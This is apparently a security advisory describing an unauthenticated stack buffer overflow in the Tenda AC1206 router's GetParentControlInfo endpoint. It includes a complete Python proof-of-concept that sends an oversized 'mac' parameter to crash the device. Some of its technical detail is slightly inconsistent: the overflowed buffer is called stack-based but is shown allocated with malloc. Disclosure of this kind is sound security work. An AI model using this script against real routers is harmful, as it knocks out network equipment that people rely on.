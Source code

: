# Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC1206 (AC1206V1.0RTL_V15.03.06.23)
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC12 device running firmware version AC1206V1.0RTL_V15.03.06.23. Due to the lack of restrictions on certain parameters and the absence of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.`/goform/GetParentControlInfo``initWebs``formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC12 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability was discovered by analyzing the firmware (US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → initWebs → formDefineTendDa → GetParentControlInfo`

The program retrieves the user input parameter "mac". The `strcpy` function in the figure below copies content from `mac_addr` to `pc_info->mac_addr` without checking the size of the target buffer. `pc_info = (parent_control_info *)malloc(0x254u);` where 0x254 is 596 bytes. If the length of `mac_addr` exceeds the buffer of `pc_info->mac_addr`, an overflow will occur.

Therefore, a carefully designed payload at the interface path `/goform/GetParentControlInfo` can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using Python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 51200
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.31.12/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` (note that this file is for the MIPS little-endian architecture, and IDA needs to be used to modify `httpd` to adapt to the emulation environment).

As shown in the figure below, the emulation is successful.

Use this script to trigger the stack overflow.

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.

